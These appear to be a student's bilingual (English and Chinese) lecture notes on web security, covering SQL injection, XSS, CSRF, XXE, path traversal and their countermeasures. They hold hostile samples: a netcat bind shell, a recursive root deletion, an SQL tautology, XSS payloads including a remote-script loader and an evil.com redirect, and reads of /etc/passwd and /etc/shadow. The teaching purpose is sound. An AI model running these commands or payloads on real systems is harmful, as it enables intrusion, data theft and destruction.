

# 1. Attacks against websites

We will discuss attacks on websites and their prevention

- Authentication failure
- SQL injection
- Cross-site scripting
- Code injection

Two main sources of vulnerabilities:

- Input validation
- Application logic

## 1.1 Computer Misuse Act

- Unauthorised access to computing material
- Unauthorised access with intent to commit
- Unauthorised acts with intent to impair operations of a computer
- Making, supplying or obtaining articles for use in above offences

## 1.2 Typical Web Setup

HTTP website:

```html
<form action="http://site.com/index.jsp" method="GET">
  Email: <input type="text" name="email">
  <input type="submite" value="Submit">
</form>
```

If I type in `x@y.com` in the text box, then I will go to `http://site.com/index.jsp?email=x@y.com`

PhP page reads and processes:

```html
<?php
$email=$_GET["emailAddress"];
mysql_query("INSERT INtO emailsTable
								VALUE(\'".$email. "\')");
?>
<b>Your e-mail has been added</b>
```

## 1.3 Authenticating users after log in

- IP address-based
  - NAT may cause several users to share the same IP (NAT 网络地址转换)
  - DHCP may cause same user to have different IPs (DHCP 动态主机配置协议)
- Certificate-based
  - Who has a certificate and what is it, and who will sign it?
- Cookie-based
  - The most common

> NAT 是一种将私有网络地址转换为公共网络地址的技术。每个网络中每个设备都需要有一个唯一的IP地址以便进行通信。然而，由于IPv4地址数量有限，因此在一个组织内部可能有多个设备需要共享同一个公共IP地址以访问互联网。这就是NAT的作用。
>
> DHCP 是一个网络协议，用于为计算机自动分配 IP 地址、子网掩码、网关、DNS 等配置参数。

## 1.4 Cookies

- Cookies let server store a string on the client. Based on the server name.
  - HTTP réponse: Set-Cookie: adds a cookie
  - HTTP header: Cookie: gives a "cookie"
- This can be used to
  - Identify the user (cookie given out after login)
  - Store user name, preferences etc.
  - Track the user: time of last visit, etc.

## 1.5 Simple authentication scheme

- The Web Application:

  - Verifies the credentials, e.g., against database

  - Generate a cookie which is sent back to the user

    Set-Cookie: auth=secret

- When browser contacts the web site again, it will include the session authenticator

  Cookie: auth=secret

## 1.6 Fixed cookies

- Log in/out recorded on the server side.
  - Set cookie the first time browser connects.
  - Every page looks up cookie in database to get session state.
- PhP does this automatically: session cookies and `start_session()`

## 1.7 But what can go wrong?

- **OWASP** = Open Web Application Security Project

- Public effort to improve web security:

  - Many useful documents
  - Open public meetings and events

- The top 10 lists the current biggest web threats:

  `https://owasp.org/www-project-top-ten`

> OWASP 是一个开源组织，致力于改善Web应用程序的安全性。该组织通过提供安全性建议、工具和技术来提高Web应用程序的安全性，包括开发指南、测试方法、漏洞分类、漏洞修复等方面。

## 1.8 Eavesdropping 偷听

If the connection is not encrypted, it is possible to eavesdrop, by

- ISP,
- anyone on the route,
- anyone on your local network, e.g. using the same wi-fi.

## 1.9 Steal the Cookie

- So the attacker does not need the username and password, just the cookie.
- If the website uses https (TLS) then it is secure.
- But many websites dropped back to http after a secure login.
- HTTPS可以避免这个问题 但是HTTP不行

> Cookie是一种用于存储网站信息的小型文本文件。当您访问一个网站时，该网站会将Cookie存储在您的计算机或移动设备上。Cookie通常用于存储有关您的偏好设置、登录信息、购物车内容等方面的信息，以便网站可以在您的下一次访问时自动加载这些信息，提供更好的用户体验。
>
> Cookie由两部分组成：名称和值。网站可以使用多个Cookie来存储不同的信息，例如，在一个购物网站上，可能会有一个Cookie存储您的购物车内容，另一个Cookie存储您的登录信息。网站也可以设置Cookie的过期时间，以指定Cookie应在多长时间后被删除。一些Cookie还可以设置为仅在使用安全连接（HTTPS）时传输，以提高安全性。

## 1.10 Countermeasures

- Use https (TLS) all the time.

- Set the secure flag: cookie is sent only over secure connections:

  ```java
  Cookie secureCookie = 
  	new Cookie("credential", c);
  	secureCookie.setSecure(true);
  ```

> 这段代码创建了一个名为"credential"的Cookie，并将其值设置为c。此外，该Cookie被设置为安全Cookie（secure cookie），意味着只有在使用安全协议（例如HTTPS）时，浏览器才会发送该Cookie到服务器。这提高了Cookie的安全性，防止它们被窃听或篡改。

## 1.11 Broken Authentication

Many web developers implement their own log in systems. Often broken, e.g.

- No session time outs.
- Passwords not hashed.

## 1.12 Sensitive Data Exposure

- Sensitive data transmitted in clear text

  (e.g. use of http instead of https)

- Sensitive data stored in clear text

  (e.g. passwords not hashed in database, credit card numbers not encrypted in database)

- Cookie stealing because https connection turns to http

## 1.13 SQL Injection Attacks

`http://www.shop.com/page?do=buy&product=17453`

Web server looks up "17453" in a SQL database using:

```sql
SELECT * FROM products WHERE (code='17453')
INSERT INTO sales VALUES (id, customer, 17453)
```

---

`http://www.eshop.co.uk?action=buy&product=X`

```sql
SELECT * FROM products WHERE (code='X')
```

---

If now, we have a secret Item: dh2*%Bgo:

```sql
SELECT * FROM items WHERE (item = 'dh2*%Bgo')
```

If found, then item details are given.

---

Secret Item:

`OR '1' = '1' --`

```sql
SELECT * FROM items WHERE (item='' OR '1'='1') -- ')
```

1 does equal 1. So return details of all items (N.B. note the space after the comments).

> 这行代码是一个SQL查询语句，意思是从数据库中查询表“items”中所有的列和行。但是，该查询语句容易受到SQL注入攻击，因为它包含了一些不安全的代码。具体来说，“item='' OR '1'='1' -- '”是一个常见的SQL注入攻击模式。这里的“--”是SQL中的注释符号，它表示在此之后的所有文本都将被视为注释。在这种情况下，SQL查询将忽略“item=''”这个条件，并返回表“items”中所有的行，因为“'1'='1'”永远是真的，它将忽略其他条件。这是一种非常危险的攻击，因为攻击者可以获取未经授权的访问数据库的权限，并且可以窃取敏感的信息。

## 1.14 SQL Attack Types

The best vulnerabilities will print the result of the SQL query.

- The lets you explore the whole database

- Information schema table can tell you the names of all other tables

  ```sql
  获得数据库‘mydb’中所有表的名称
  SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'mydb';
  ```

Blind SQL attacks do not print the results:

- Lots of guesswork needed
- Run commands on database, e.g. add a password, delete tables
- Copy data (e.g. password) into a field you can read

> Blind SQL Injection攻击是一种SQL注入攻击类型，攻击者试图利用应用程序的漏洞来执行恶意的SQL查询，以获取敏感数据或执行未经授权的操作。与传统的SQL注入攻击不同的是，盲注攻击并不返回数据库信息，攻击者无法在响应中看到查询结果。攻击者必须通过不断地尝试和错误测试来确定数据的内容和结构，从而实现对数据库的恶意访问和控制。

## 1.15 Stopping SQL Attacks

checking /cleaning the input, e.g. in PHP:

```php
mysqli_real_escape_string()
```

> `mysqli_real_escape_string()` 是 PHP 中用于将字符串转义为 SQL 语句安全字符串的函数，以避免 SQL 注入攻击。该函数需要两个参数：数据库连接和要转义的字符串。它将字符串中的所有特殊字符（如单引号、双引号和反斜杠）转义为它们的转义序列，并返回转义后的字符串。这样，将该函数返回的字符串插入 SQL 语句时，就不会破坏原始 SQL 语句的结构，从而避免 SQL 注入攻击。

```
\\'OR \'1\'=\'1\'{ maps to
\\\'OR \\\'1\\\'=\\\'1\\\'--
```

However, this is slightly problematic, see [here](https://stackoverflow.com/questions/5741187/sql-injection-that-gets-around-mysql-real-escape-string).

---

Most language these days have "prepared" statements, e.g. PHP and MySQLi:

```php
// prepare and bind
$stmt = $conn->prepare
  				("INSERT INTO People (firstname, lastname) VALUES (?, ?)");
$stmt->bind_param("ss", $firstname, $lastname);
// set parameters and execute
$firstname = "John";
$lastname = "Doe";
$stmt->execute();
```

> 这段 PHP 代码用于将数据插入到数据库中。它首先准备 SQL 语句，并使用占位符 (?) 代替变量部分。然后使用 `$stmt->bind_param()` 函数将变量绑定到准备的 SQL 语句中的占位符处。在这个例子中，`$firstname` 和 `$lastname` 分别绑定到 SQL 语句中的两个占位符（`?`）处，且它们都是字符串类型（"ss" 表示两个占位符都是字符串类型）。
>
> 接下来，代码将 `$firstname` 和 `$lastname` 变量设置为要插入的实际值。最后，使用 `$stmt->execute()` 函数执行预处理的 SQL 语句并将数据插入到数据库中。
>
> 总的来说，避免了整个SQL语句被修改的问题。

## 1.16 Not just SQL

Not just SQL injection, any command language can be injected, e.g. shell:

- `nc -l -p 9999 -e /bin/bash` (Start a shell on port 9999)

  > 这行指令是在启动一个TCP网络监听器，指定监听端口为9999，并且当有连接请求时执行`/bin/bash`命令。这意味着当有一个连接请求到达9999端口时，会打开一个bash shell并在该shell中执行命令。由于`/bin/bash`是一个交互式shell，因此可以在连接到监听器的客户端终端中执行任何命令。因此，这种技术被称为“反向Shell”，可以用于远程控制目标计算机。

- `useradd tpc -p rEK1ecacw.7.c` (Add user tpc:npassword) 添加一个名为`tpc`的用户，并设定密码。

- `rm -f -r /`

  > 这条指令是在Linux系统中删除根目录下的所有文件和目录，因为`/`表示根目录，而`-f`和`-r`选项表示强制删除和递归删除。这是非常危险的操作，可能会导致系统崩溃或无法使用。因此，建议不要随意尝试这条指令。

## 1.17 Cross Site Scripting (XSS)

- Web browsers are dumb: they will execute anything the server sends to them.
- Can an attacker force a website to send something to you?
- An input validation vulnerability.
- Allows an attacker to inject client-side code (JavaScript) into webpages.
- Looks like the original website to the user, but actually modified by attacker.

> XSS（Cross-site scripting）攻击是一种常见的网络安全漏洞，攻击者利用该漏洞向目标网站注入恶意代码，使得用户在浏览器上执行该代码，导致攻击者能够获取用户的敏感信息（如 cookie、session ID等），或者通过恶意代码控制用户的浏览器，实现篡改网页内容、重定向到其他网站等攻击。XSS攻击通常分为反射型XSS、存储型XSS和DOM型XSS三种类型。

### 1.17.1 Reflected XSS

- The injected code is reflected off the web server
  - an error message,
  - search result,
  - Response includes some/all of the input sent to the server as part of the request
- Only the user issuing the malicious request is affected

```java
String searchQuery =
  request.getParameter("searchQuery");
...
PrintWriter out = response.getWriter();
out.println("<h1>" + "Results for " + searchQuery + "</h1>");
```

User request:

```html
searchQuery =
	<script>alert("pwnd")</script>
```

> 这是一个可能导致XSS攻击的例子，因为输入的脚本代码被直接插入到HTML页面中，而没有进行过滤和转义处理。攻击者可以利用这种漏洞来在用户的浏览器中注入恶意代码，例如窃取用户的cookie或其他敏感信息，以及执行其他恶意操作。

### 1.17.2 Stored XSS

- The injected code is stored on the website and served to its visitors on all page views
  - User messages
  - User profiles
- All users affected.

```java
String postMsg = db.getPostMsg(0);
...
PrintWriter out = response.getWriter();
out.println("<p>" + postMsg);

postMsg = 
  <script>alert("pwnd")</script>
```

> 这段代码的作用是从数据库中获取一个帖子(post)的信息，并将其输出到网页上。具体来说，`db.getPostMsg(0)` 从数据库中获取 ID 为 0 的帖子内容，并将结果存储在 `postMsg` 变量中，然后通过 `response.getWriter()` 获取一个 `PrintWriter` 对象，将获取到的帖子信息渲染到网页上。但是如果 `postMsg` 中含有恶意代码，例如 `<script>alert("pwnd")</script>`，它就会被执行，导致网页被攻击者控制。

## 1.18 Steal cookie example

- JavaScript can access cookies and make remote connections.
- A XSS attack can be used to steal the cookie of anyone who looks at a page, and send the cookie to an attacker.
- The attacker can then use this cookie to log in as the victim.

## 1.19 XSS attacks: phishing

- Attacker injects script that reproduces look-and-feel of login page etc.

- Fake page asks for user's credentials or other sensitive information

- Variant: attacker redirects victims to attacker's site

  ```html
  <script>
  	document.location = "http://evil.com";
  </script>
  ```

## 1.20 XSS attacks: run exploits

- The attacker injects a script that launches a number of exploits against the user's browser or its plugins
- If the exploits are successful, malware is installed on the victim's machine without any user intervention
- Often, the victims machine becomes part of a botnet

> XSS attacks: run exploits 意思是在利用 XSS 漏洞进行攻击，运行攻击代码。攻击者利用 XSS 漏洞可以向页面注入恶意代码，当其他用户浏览该页面时，这些代码会在他们的浏览器中执行，从而导致恶意行为，比如窃取用户的信息、登录凭证等，或者直接在用户的浏览器中执行攻击者想要的操作。因此，防止 XSS 攻击非常重要。

## 1.21 Solution for injection: sanitisation

- Sanitize all user inputs is difficult
- Sanitisation is context-dependent
  - JavaScript `<script>user input</script>`
  - CSS value `a:hover {color: user input}`
  - URL value `<a href="user input">`
- Sanitisation is attack-dependent, e.g. JavaScript vs. SQL

> Sanitisation是指对输入的数据进行过滤和清理，以去除可能会导致注入攻击的字符或语句。

## 1.22 Spot the problem (1)

```PHP
clean = preg_replace("#<script(.*?)>(.*?)</script(.*?)>#i"
                    "SCRIPT BLOCKED", $value);
echo $clean;
```

- Problem: over-restrictive sanitization: browsers accept malformed input!
- Attack string: `<script>malicious code<`
- Implementation != Standard

## 1.23 Spot the problem (2) Real Twitter bug

- On Twitter if user posts `www.site.com`, twitter displays:

  ```html
  <a href="www.site.com">www.site.com</a>
  ```

- Twitter's old sanitisation algorithm blocked `<script>` but allowed `"`.

- What happens if somebody tweets:

  ```sql
  http://t.co/@"onmouseover="$.getScript('
  	http:\u002f\u002fis.gd\u002ff19A7')"/
  ```

- Twitter displays:

  ```html
  <a href="http://t.co@"onmouseover=" $.getScript('
  	http:\u002f\u002fis.gd\u002ff19A7')"/">...</a>
  ```

> 这是一个XSS攻击的例子，攻击者利用Twitter的旧sanitisation算法中一个漏洞，通过在推特文本中注入JavaScript代码来进行攻击。在这个例子中，攻击者在URL中嵌入了一个JavaScript代码，该代码在用户将鼠标悬停在链接上时触发，利用了JavaScript的onmouseover事件。该代码使用jQuery库中的getScript()函数来加载远程脚本，这里是一个短网址（is.gd/f19A7），可能会包含恶意代码。因为旧sanitisation算法只过滤了`<script>`标签而没有过滤双引号，所以攻击者成功地将这个恶意代码注入了推特文本中，并在用户鼠标悬停时触发。

## 1.24 Real-world XSS: From bug to worm

- Anyone putting mouse over such a twitter feed will run JavaScript that puts a similar message in their own feed.

- The actual attack used:

  `http://t.co/@"style="font-size:9999999999px; "onmouseover=".../`

- Why the style part?

> 攻击style的原因可能是：当用户鼠标悬停在链接上时，JavaScript代码将被触发，通常会引导用户到一个包含恶意代码的网站。由于字体太大，用户可能无法关闭或隐藏弹出窗口，从而被迫浏览恶意网站，这可能导致更多的安全问题和攻击。

## 1.25 PHP HTML sanitisation

`htmlspecialchars()` removes characters that cause problems in HTML:

`&` becomes `&amp`

`<` becomes `&lt`

`>` becomes `&gt`

`'` becomes `&quot`

`"` becomes `&#039`

Not a catch-all solution!

## 1.26 Cross-site request forgery (CSRF)



1. Victim is logged into vulnerable web site
2. Victim visits malicious page on attacker web site
3. Malicious content is delivered to victim
4. Victim sends a request to the vulnerable web

> 跨站请求伪造，是一种网络攻击方式。攻击者通过某种方式诱导用户去访问一个有攻击代码的网站，当用户已经在目标网站登录的情况下，攻击者就可以在用户不知情的情况下，通过构造精心设计的 HTTP 请求，来完成对目标网站的一系列操作，比如发表评论、发私信、转账等等，从而达到攻击目的。
>
> CSRF 的攻击原理比较简单，攻击者构造一个包含特定操作的 HTTP 请求，并将请求发送给目标网站，目标网站由于缺乏有效的身份验证或验证方式不够严格，而无法区分是否是合法用户发送的请求，因此将这个请求当做是合法的请求来处理，从而导致攻击的发生。
>
> <u>例如，当Alice在银行的网站中保留她的登录状态并转到一个可疑的网站时，该可疑网站上的恶意代码可以以Alice的身份发起银行转账请求。由于Alice仍然被银行的网站认为是有效用户，因此该请求可能会成功完成，这将使银行账户的资金流失。</u>

### 1.26.1 Solutions to CSRF (1)

- Check the value of the Referer header

- Does not work:
  - Attacker cannot spoof the value of the Referer header in the users browser (but the user can).
  - Legitimate requests may be stripped of their Referer header
    - Proxies
    - Web application firewalls

### 1.26.2 Solutions to CSRF (2)

- Every time a form is served, add an additional parameter with a secret value (token) and check that it is valid upon submission.
- If the attacker can guess the token value, then no protection.

### 1.26.3 Solutions to CSRF (3)

- Every time a form is served, add an additional parameter with a secret value (token) and check that it is valid upon submission.
- If the token is not regenerated each time a form is served, the application may be vulnerable to replay attacks (nonce).

## 1.27 XML External Entities (XXE)

- XML is very common in industry

- XML processors resolve an "external entity" during processing:

  ```html
  <?xml version="1.0" encoding="ISO-8859-1"?>
  
  <!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTM "file:///etc/passwd" >]>
  <foo>&xxe;</foo>
  ```

> XML external entities (XXE) 是指 XML 处理器在解析包含外部实体引用的 XML 文档时，可以引用或访问计算机系统上的外部资源。这些外部资源可能是文件、端口或其他协议，如 HTTP 或 FTP。

## 1.28 Broken Access Control

Query strings are used to tell dynamic webpages what to do

`http://myWebShop.com/index.php?account=tpc&action=add`

`http://myWebShop.com/index.php?account=tpc&action=show`

What if the attacker tries:

`http://myWebShop.com/index.php?account=tpc&action=delete`

## 1.29 Path Traversal

The user can type anything they want into the URL bar, or even form the request by hand.

> 手动输入请求

`http://nameOfHost/../../../etc/shadow`

If the webserve is running with root permission this will give me the password file.

### 1.29.1 Path Traversal: Fix

- Use access control settings to stop Path Traversal
- Best practice: make a specific user account for the webserver
- Only give that account access to public files

> 限制权限，只有特定账号才能访问 webserver。

## 1.30 Security Misconfiguration

make sure your security setting don't give an attacker an advantage, e.g.

- Error messages: should not be public.
- Directory listings: It should not be possible to see the files in a directory.
- Admin panels should not be publically accessible.

## 1.31 Insecure Deserialisation

- Deserialisation on the server of data provided by end user
- Attacker can change field names, contents, and mess with the format
- Remote code execution possible

> Insecure deserialization是一种安全漏洞，指的是对于一个应用程序来说，它对序列化的输入数据的信任程度过高，导致攻击者可以注入恶意数据，导致应用程序的行为不受控制。

## 1.32 Using Components with known Vulnerabilities

If a new security patch comes out has it been applied?

- A patch might require you to bring down the site and so lose money.
- Or it might even break your website.

Is it worth applying the patch?

## 1.33 Insufficient Logging and Monitoring

- Auditable events not logged
- Warning and error message not logged
- Logs not monitored for suspicious activities

> 不足的日志记录和监控，指在一个应用程序或系统中，缺少足够的日志记录和监视措施。这种情况会导致无法及时发现或响应安全事件，增加了攻击者入侵和滞留的可能性，同时也难以进行安全审计和事后分析。
>
> 当安全事件发生时，日志记录和监视可以提供有用的信息，例如攻击的来源、时间、目标和方法。这些信息可以帮助安全团队快速识别和响应安全事件，以及进行后续的恢复和修复工作。如果没有足够的日志记录和监视，就很难确定攻击发生的详细情况，也很难判断攻击者是否仍然存在系统中。

## Summary

- To secure a website, you need to know how it works:

  - How clients request resources
  - How clients are authenticated
  - How HTTP and webservers work

  Possible Web Attacks

  - Stolen cookies
  - SQL injection
  - Code injection
  - XSS
  - CSRF
  - For more, see OWASP Top 10

- Errors are often down to bad application logic

- Always sanitise all inputs